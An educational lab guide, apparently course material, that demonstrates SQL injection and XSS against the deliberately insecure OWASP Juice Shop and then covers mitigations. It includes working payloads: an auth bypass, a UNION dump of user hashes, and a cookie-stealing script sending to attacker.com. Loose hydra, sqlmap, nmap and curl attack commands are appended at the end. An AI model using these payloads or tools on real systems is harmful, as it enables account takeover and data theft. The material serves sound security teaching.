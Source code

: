 # SQL Injection (SQLi) and Cross-Site Scripting (XSS) Attack Guide

## Introduction
This document provides a dummy, educational guide on step-by-step instructions for demonstrating SQL Injection (SQLi) and Cross-Site Scripting (XSS) attacks using the OWASP Juice Shop application. This is intended for learning purposes only in a controlled, local environment. Do not use these techniques on real websites without permission, as that would be illegal and unethical.

OWASP Juice Shop is a deliberately insecure web app designed for security training. Assumptions:
- You have Juice Shop running locally (e.g., via Docker: `docker run --rm -p 3000:3000 bkimminich/juice-shop`).
- Access it at http://localhost:3000.
- All steps are for demonstration; in a real project, document with screenshots.

References:
- OWASP Top 10: https://owasp.org/www-project-top-ten/
- Juice Shop Challenges: https://pwning.owasp-juice.shop/part2/challenges.html

## Section 1: SQL Injection (SQLi)
SQLi exploits poor input handling by injecting malicious SQL code into queries, potentially allowing data access, modification, or deletion.

### High-Level Overview
1. Identify input fields that interact with the database (e.g., login, search).
2. Test with probes to detect vulnerabilities (e.g., error messages).
3. Exploit by crafting payloads to bypass auth or extract data.
4. Mitigate with prepared statements, input validation.

### Step-by-Step Dummy Instructions for Demonstration
#### Step 1: Setup and Identification
- Launch Juice Shop and navigate to the login page.
- Enter a single quote (') in the email field and submit. Look for error messages like "SQLITE_ERROR" indicating vulnerability.

#### Step 2: Basic Authentication Bypass (Union-Based SQLi)
- Go to the login page.
- In the email field, enter: `' OR 1=1 --`
- Enter any password (e.g., "test").
- Submit. This makes the query always true, logging you in as the admin user.
- Expected: Successful login without credentials.

#### Step 3: Data Extraction (Union-Based)
- Use the search bar (after logging in or as guest).
- Enter: `') UNION SELECT id, email, password_md5 FROM Users --`
- Submit. This appends a query to dump user data.
- Expected: Search results show leaked emails and hashed passwords.

#### Step 4: Blind SQLi (Time-Based or Boolean)
- In search: `%' AND (CASE WHEN (SELECT COUNT(*) FROM Users) > 0 THEN 1 ELSE (SELECT 1/0) END) --`
- Observe response differences (e.g., error vs. no error) to infer data.
- Expected: Confirms table existence without direct output.

#### Step 5: Documentation Notes
- Take screenshots of input, error messages, and results.
- Note impact: Unauthorized access, data breach.

## Section 2: Cross-Site Scripting (XSS)
XSS injects malicious scripts into web pages, executed in users' browsers, potentially stealing sessions or defacing sites.

### High-Level Overview
1. Find fields that reflect or store user input (e.g., search, comments).
2. Test with script tags to check for execution.
3. Exploit by injecting payloads that run JavaScript.
4. Mitigate with output encoding, sanitization (e.g., DOMPurify).

### Step-by-Step Dummy Instructions for Demonstration
#### Step 1: Setup and Identification
- Navigate to the search bar or customer feedback page in Juice Shop.
- Enter: `<script>alert('test')</script>`
- Submit and observe if an alert pops up, indicating no sanitization.

#### Step 2: Reflected XSS (Immediate Execution)
- In the search bar: `<script>alert('XSS Reflected')</script>`
- Submit. The script reflects back and executes.
- Expected: Alert box appears on the results page.

#### Step 3: Stored XSS (Persistent)
- Go to the "Customer Feedback" page.
- In the comment field: `<script>alert('XSS Stored')</script>`
- Submit the form.
- View the feedback as another user or refresh.
- Expected: Alert executes every time the page loads.

#### Step 4: DOM-Based XSS
- In the search bar: `<iframe src="javascript:alert('DOM XSS')"></iframe>`
- Submit. This manipulates the DOM directly.
- Expected: Alert triggers without server reflection.

#### Step 5: Advanced Payload (e.g., Session Theft)
- Inject: `<script>document.location='http://attacker.com?cookie='+document.cookie</script>`
- Expected: Simulates stealing cookies (in demo, use console to verify).

#### Step 6: Documentation Notes
- Capture browser console logs and alerts.
- Note impact: Cookie theft, phishing.

## Mitigation Strategies (For Both Attacks)
### For SQLi:
- Use parameterized queries (e.g., in Node.js: `db.query('SELECT * FROM users WHERE id = ?', [userId])`).
- Validate input: Check for expected formats (e.g., email regex).
- Sanitize: Escape special characters.

### For XSS:
- Sanitize inputs: Use libraries like DOMPurify.
- Encode outputs: HTML-encode user data before rendering.
- Add CSP headers: `Content-Security-Policy: script-src 'self'`.

## Conclusion
This guide is for educational demo only. In your project, implement fixes in a forked Juice Shop repo and re-test to show improvements. Always follow ethical hacking guidelines.

- Created: September 29, 2025
- For: Web Application Security Project (WAS621S)


hydra -l <username> -P <password_list> <ftp_server>
hydra -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt http-post-form \
"http://localhost:3000/rest/user/login:username=^USER^&password=^PASS^:F=Login failed"

sqlmap -u "http://localhost:3000/rest/products/search?q=searchterm" --batch --dump
nmap -p- -sV -T4 localhost

Simulate CSRF attacks using curl and session tokens:   curl -X POST http://localhost:3000/rest/user/change-password \
-H "Authorization: Bearer <token>" \
-d '{"current": "123456", "new": "newpass"}'


